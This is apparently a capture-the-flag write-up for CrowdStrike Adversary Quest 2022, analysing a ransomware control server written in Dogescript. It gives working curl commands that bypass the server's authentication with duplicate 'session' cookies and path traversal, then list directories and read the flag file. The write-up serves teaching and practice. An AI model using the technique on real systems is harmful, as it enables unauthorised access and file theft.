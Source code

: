 # Crowdstrike Adversary Quest 2022 / Catapult Spider / #2 Such Control Wow

## Challenge Description

The ransomware was installed on a customer’s computer via a malicious CHM file. The PowerShell script that you analyzed previously installed multiple second stage binaries, including a binary that enables CATAPULT SPIDER to control the execution of the ransomware. The ransomware has locked the customer completely out of their machines and encrypted their data. The customer does not want to pay the ransom and has asked us for help in unlocking one of their systems. Can you find a way to unlock the machine without paying the ransom? We have obtained a version of the control binary for you to analyze. The locked machine is reachable at the IP 116.202.161.100.

## Pre-Requisites

```txt
$ sudo npm install -g dogescript
```

## TL;DR Summary

- The supplied server/control binary is a compiled node.js application written in Dogescript
- The authentication checks can be bypassed with two Cookies with the same name **session**
- Exploiting a directory traversal vulnerability (**path.join()**) in **checkAuth()** allows access to the control functions.
- Using the function **readfile**, the flag file can be read remotely.

## Analysis

The file **control.exe** is quite large, roughly 50 MiB. It is a 64 Bit Windows PE executable.

```txt
$ file control.exe 
control.exe: PE32+ executable (console) x86-64, for MS Windows
```

Strings output yields Dogescript (some _fun_ language that compiles into javascript) at the end of the file. We can manually copy/dump the dogescript to a file called **dogescript.djs**. **TODO** Link.

Catapult Spider has been known to use compiled node.js binaries with Dogescript in the past as well, so that's not a surprise. ;-) See CrowdStrike's Adversary Quest 2021, Challenge 2 ("Very Protocol") of Catapult Spider track.

Compile the Dogescript to JavaScript with `dogescript dogescript.djs > javascript.js` and beautify it a bit with Notepad++ JS-Tool/Format to **javascript_formatted.js**

**TODO** link to javascript.js and javascript_formatted.js

The script seems to listen on port 8124.

First connection:

```txt
$ curl http://116.202.161.100:8124
Nothing here.
```

Reaction **Nothing here** came from line 477 of javascript_formatted.js.

The script seems to implement the following commands

- auth (lines 144+, methods GET and POST)
- readfile (lines 210+, method GET)
- dirlist (lines 272+, method GET)
- unlock (lines 323+, method GET)
- decrypt (lines 365+, method GET)
- wipe (lines 420+, method GET)
- logout (lines 455+)

Trying to retrieve a directory listing from the current working directory could work like this:

```txt
$ curl http://116.202.161.100:8124/dirlist?dir=.
Not authorized.
```

To be able to use the commands, the condition `if (user != null && authorized)` has to evaluate to true. `user` is derived from `user = getUserSession(cookies['session']);` and `authorized` from `authorized = checkAuth(request);`

### Closer Look at sessionid Generation and Usage

A new `sessionid` would be created, if we were able to call the `/auth` command. If we supply the correct username and password, `createSession(user, request.socket.remoteAddress);` is called. The resulting `sessionid` is then used as a Cookie.

Since the password is set randomly to a 20 byte long value, there is no point in trying to guess that (line 13).

How are sessions created?

```javascript
function createSession(user, ip) {
    var rand = Math.floor(Math.random() * 32000);
    var sessionbfr = Buffer.from(`${user}/${ip}/${rand}`);
    var b64_session = sessionbfr.toString('base64')
        .replace(/\+/g, '-')
        .replace(/\//g, '_');
    var content = JSON.stringify({
        'user': user,
        'ip': ip
    });
    fs.writeFileSync(path.join(AuthStore, b64_session), content);
    return b64_session;
}
```

The string `sessionbfr` contains username, ip-address and a random value concatenated with slashes. It is base64 encoded (url-safe) and then used as a filename (`b64_session`). Since `AuthStore` has the value of `/tmp/sessions/` (line 9), a JSON string with user and ip values is written to the file path `/tmp/sessions/` concatenated with value of `b64_session`.

How are session values checked? The function `getUserSessions` is called with the cookie value `session`.

```javascript
function getUserSession(session) {
    try {
        var sessionbfr = Buffer.from(session.replace(/-/g, '+').replace(/_/g, '/'), 'base64');
        var sessionstr = sessionbfr.toString('utf8');
    } catch (err) {
        console.error(`Failed\x20to\x20get\x20user:\x20${err}`);
        return null;
    }
    var parts = sessionstr.split('/');
    if (parts.length != 3) {
        return null;
    }
    return parts[0];
}
```

The session cookie value is base64 decoded, split at slash characters. It has to only contain two slashes so it splits in exactly three parts. The first part is returned as the username. It is not checked, if the corresponding session file exists in the `AuthStore`.

So in order to fill the variable `user = getUserSession(cookies['session']);`, we could just supply any base64 encoded (url-safe) string like `dummy//`, which encodes to `ZHVtbXkvLw==`

### Closer look at function checkAuth

Additionally, we need to have the function `checkAuth` return `true` in order to be allowed to execute commands.

```javascript
function checkAuth(request) {
    var rc = request.headers.cookie;
    if (!rc) {
        return false;
    }
    var cookies = rc.split(';');
    for (const cookie of cookies) {
        var parts = cookie.split('=');
        if (parts.shift().trim() === 'session') {
            var session = decodeURI(parts.join('='))
                console.log('Session: ' + session);
            var sessionPath = path.join(AuthStore, session)
                console.log('Path: ' + sessionPath);
            if (fs.existsSync(sessionPath)) {
                console.log('File exists.');
                return true;
            }
        }
    }
    return false;
}
```

This function parses the list of all cookie values, looking for a session cookie (as well). It evaluates if a file at `path.join(AuthStore, session)` exists and then returns true.

While we are unable to guess existing sessionid values in the `AuthStore`, `path.join` seems vulnerable to a directory traversal attack.

If we could create a path to an existing file, `checkAuth` will return true. Line 11 yields `UNLOCK_FILE = 'C:\\Windows\\flag.txt';`, which could be used for this approach.

#### Executing our first Command

In order to execute a command, we need to set two cookie values - both named `session`.

- One has to fulfill the requirements for `checkAuth` (directory traversal to a file path we know exists on the host)
- The other has to yield a username for `getUserSessions` (base64 url-safe encoded string with two slashes)

While `checkAuth` iterates over all cookies, `getUserSessions` is called with `cookies['session']`. For this approach to work out, the order of the cookies with the same name `session` might be relevant. Which one does node.js return for `getUserSessions`: the first or last occurrence?

```txt
$ curl --cookie "session=ZHVtbXkvLw==;session=../../Windows/flag.txt" http://116.202.161.100:8124/dirlist?dir=.
Not authorized.

$ curl --cookie "session=../../Windows/flag.txt;session=ZHVtbXkvLw==" http://116.202.161.100:8124/dirlist?dir=.
such "Directory" is "." next "Listing" is so "control.js" next "node_modules" next "server.djs" many wow
```

Awesome!

#### Executing some commands

Now that we can execute commands, let's poke around...

```txt
$ curl --cookie "session=../../Windows/flag.txt;session=ZHVtbXkvLw==" http://116.202.161.100:8124/readfile?filename=./control.js
const lefs = require('fs'); const ledogescript = require('dogescript'); var doge_file = lefs.readFileSync('./server.djs').toString('utf-8'); const the_doge = eval(ledogescript(doge_file));
```

```txt
$ curl --cookie "session=../../Windows/flag.txt;session=ZHVtbXkvLw==" http://116.202.161.100:8124/unlock
such "unlock" is "Rvq8/ZXdIFwKaCjbM8AAvfWyaO8f5AEMfUOJwX+ERHc=" next "date" is "Wed Jul 13 2022 13:09:33 GMT-0700 (Pacific Daylight Time)" wow
```

That is supposedly the base64 value of the SHA256 hash of the flag. Not very helpful... (see function `unlock`, lines 94+).

## Now it's Flag Time!

```txt
$ curl --cookie "session=../../Windows/flag.txt;session=ZHVtbXkvLw==" http://116.202.161.100:8124/readfile?filename=../../../Windows/flag.txt
CS{such_m4ny_C00kies_c0nfUs3d_w0w}
```

Flag: **CS{such_m4ny_C00kies_c0nfUs3d_w0w}**

